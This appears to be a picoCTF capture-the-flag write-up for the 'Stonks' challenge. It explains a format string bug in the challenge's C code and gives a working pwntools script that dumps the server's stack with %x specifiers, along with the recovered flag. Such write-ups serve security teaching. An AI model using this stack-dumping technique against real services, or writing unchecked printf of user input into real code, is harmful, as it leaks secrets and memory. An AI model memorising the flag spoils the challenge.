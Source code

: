 # Stonks

Reading through the `vuln.c` file, what immediately seems interesting is the `buy_stonks` function.
In this snippet, we see that `api_buf` is read from a file; we need some way to view this data.

```c
// buy_stonks:
    char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("...");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);
```

Going further down the function we see a snippet that reads a token from user input.

```c
    char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```

This feels like the most optimal place to exploit. Initially, I thought this could be a buffer overflow
vulnerability that we could somehow use to dump our stack. Turns out its a lot simpler than that.
C leaves room for arbitrary user input to get interpreted as a format argument when we `printf(user_buf)`.
This is called a [Format String Vulnerability](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/). We can leverage this to dump the stack by providing arbitrary
format arguments. 

I took inspiration from [this writeup](https://ctftime.org/writeup/28935) on stonks and wrote a script
with [`pwntools`](https://pwntools.com).

```py
from pwn import *

r = remote("mercury.picoctf.net", "6989")

# the format arguments we use to dump the stack
# %x will output an integer (32-bit) in hex form, so we just send a load
# of %x's to dump as much of the stack as we can.
format_string = '-'.join(["%x" for _ in range(0, 32)])

# we don't really need to wait cuz our input will be buffered anyway
r.send(b"1\n")
r.send(bytes(format_string + '\n', encoding="ascii"))

# skip till the line relevant to us
_ = r.recvuntil("Buying stonks with token:\n")
out = r.recvline()

stack = b""

# now we have our stack data, we can interpret it as ascii and print what we find
for int32 in out.decode().split('-'):
    stack += p32(int(int32, 16))

print(stack.decode(encoding="ascii", errors="replace"))
```

Here's the output after running the script

```
►��     ����-������☺`�� ►☺���-�����     ☻���    ►��     picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}������@♦��h?i☺�����►���%��
[*] Closed connection to mercury.picoctf.net port 6989
```

Which has our flag!
